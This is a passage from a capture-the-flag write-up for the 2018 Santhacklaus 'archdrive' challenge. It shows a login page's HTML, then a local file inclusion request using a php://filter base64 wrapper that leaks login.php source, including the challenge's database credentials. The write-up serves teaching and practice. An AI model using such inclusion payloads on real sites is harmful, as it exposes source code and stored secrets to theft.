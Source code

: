 ```php
<div class="wrap-input100 validate-input" data-validate = "Valid email is: a@b.c">
<input class="input100" type="text" name="email">
<span class="focus-input100" data-placeholder="Email (only from @archdrive.corp)"></span>
</div>

<div class="container-login100-form-btn">
<div class="wrap-login100-form-btn">
<div class="login100-form-bgbtn"></div>
<button class="login100-form-btn" name="recover">Recover Password</button>
</div>
</div>
</form>
</div>
</div>
</div>


<div id="dropDownSelect1"></div>

<script src="vendor/jquery/jquery-3.2.1.min.js"></script>
<script src="vendor/animsition/js/animsition.min.js"></script>
<script src="vendor/bootstrap/js/popper.js"></script>
<script src="vendor/bootstrap/js/bootstrap.min.js"></script>
<script src="vendor/select2/select2.min.js"></script>
<script src="vendor/daterangepicker/moment.min.js"></script>
<script src="vendor/daterangepicker/daterangepicker.js"></script>
<script src="vendor/countdowntime/countdowntime.js"></script>
<script src="js/main.js"></script>

</body>
</html>
```

### Local file inclusion

The __index.php__ file doesn't work, I didn't succeed to extracted it. Nevermind, there is a __login.php__ file, found in the index form:


![](/lib/images/writeups/2018_santhacklaus/archdrive/archdrive2_1.png)


Then:

> https://archdrive.santhacklaus.xyz/?page=pHp://FilTer/convert.base64-encode/resource=login.php

```php
<?php
  session_start();

  $state = new \stdClass();

  if ( isset($_POST['email']) && !empty($_POST['email']) ) {
    if ( isset($_POST['pass']) && !empty($_POST['pass']) ) {

      $bdd = mysqli_connect('database:3306', 'archdrive-corpo-bdd-admin', '8mkxdcwwyvtk36snF2b4TcEqSjh4Cc', 'ctf-archdrive-corp');
      if (mysqli_connect_errno()) {
          $state->return = 'error';
          $state->string = 'Connection error';
          $state_json = json_encode($state);
          echo $state_json;
          return;
      }

```